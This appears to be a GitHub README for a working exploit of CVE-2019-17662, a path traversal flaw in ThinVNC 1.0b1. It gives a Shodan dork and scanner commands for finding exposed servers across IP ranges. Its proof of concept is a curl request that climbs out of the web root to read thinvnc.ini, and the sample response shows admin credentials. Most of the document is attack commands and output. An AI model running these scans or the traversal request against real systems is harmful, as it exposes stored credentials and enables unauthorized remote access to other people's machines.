 ## CVE-2019-17662
![](https://img.shields.io/static/v1?label=Product&message=ThinVNC&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=1.0b1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Arbitrary%20File%20Read&color=red)


- Shodan dork:
```
"ThinVNC"
```
or
```
python scanner.py file_list_ip_cidr 80 -o results.txt
```
```
python scanner.py file_list_ip_cidr 80, 8080-8090 -o results.txt
```
```
python scanner.py 192.168.1.0/24 80,8080-8090 -o results.txt
```
- POC:
```
curl -k -X 'GET' "http://target_ip_address:port/a/\../\../thinvnc.ini"
	  
Response:
[Authentication]
Unicode=0
User=admin
Password=admin
Type=Digest
[Http]
Port=8080
Enabled=1
[Tcp]
Port=
[General]
AutoStart=1
```
